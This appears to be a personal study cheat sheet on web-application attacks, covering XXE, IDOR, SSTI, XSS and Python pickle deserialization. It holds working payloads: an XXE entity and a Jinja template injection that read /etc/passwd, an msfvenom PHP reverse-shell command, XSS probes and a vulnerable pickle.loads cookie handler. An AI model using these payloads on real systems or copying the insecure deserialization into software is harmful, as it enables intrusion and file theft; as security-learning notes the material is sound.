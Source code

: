 # XML

DTD = Document Type Definition
defines structure of the legal elements and attributes of the xml document.

`<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`

!DOCTYPE note - Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

Define new element = !ELEMENT
Define root element = !DOCTYPE
Define new entity = !ENTITY

## XXE payloads

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

# IDOR

Change url parameters

# Security misconfiguration

Default passwords
PUT header

Cadaver is a command line tool pre-installed in the Kali machine that enables the uploading and downloading of a file on WebDAV.

`msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=1234 -o shell.php`

## Input santitisation bad practices

POST form example:
`name=admin`

Possible exploits:

```
name=${7*7}
name=#{7*7}
name=*{7*7}
name={{7*7}}
name=${{7*7}}
name=#{{7*7}}
name=*{{7*7}}
name={${7*7}}
name={#{7*7}}
name={*{7*7}}
name={{get_flashed_messages.__globals__.__builtins__.open('/etc/passwd').read()}}

```

## Enumerate

app environment, sensitive information about the database connections, secret keys, credentials, running services, etc.

# SSTI

## SSTI payload generator https://github.com/VikasVarshney/ssti-payload

# XSS

Alert message
Show machines ip = <script>alert(window.location.hostname)</script>

connect.sid=s%3AVH4forvvtp1tMOdcIMBXJZJyUDlLZf4E.%2FXy6MyKV1WcGXkdxm%2BDK96hsfafeFelJp0wAGVp%2FsZc

## Reflected xss

1. Attacker sends a link to victim that contains the payload
2. Victim clicks the link and taken to the site
3. Link executes script on victims machine
4. Attacker steals the cookie of the user (containing passwords or session cookies that can be used)

## Stored xss

1. Attacker inserts a malicious payload into the sites database
2. Everyone visiting the site will be affected
3. Cookies are sent to the attacker

## DOM based xss

1. Attacker inserts html into the site containing the malicious payload

## Blind xss

1. Same as stored xss but you cant see the payload working or test it against yourself first

# Deserialization

serialization = Converting objects into simpler, compatible formatting for transmitting between systems or networks for further processing or storage.

Deserialization = Opposite of serialization

Base-2 = Binary

## Cookies

Stored on the users computer
Cookie name
Cookie Value
Secure only: If set, this cookie will only be set over HTTPS connections
Expiry: Timestamp when the cookie expires
Path: The cookie will only be sent if the specified URL is within the request

Creating cookies in flask:

```python
dateTime = datetime.now()
timestamp = str(dateTime)
resp.set_cookie("registrationTimestamp", timestamp)
```

Vulnerable form example: Python

```python
def two():
    cookie = request.cookies.get("encodedPayload")
    cookie = pickle.loads(base64.b64decode(cookie))

def one():
    cookie = { "replaceme": payload}
    pickle_payload = pickle.dumps(cookie)
    encodedPayloadCookie = base64.b64encode(pickle_payload)
    resp = make_response(redirect('/myprofile'))
    resp.set_cookie('encodedPayload', encodedPayloadCookie)
```
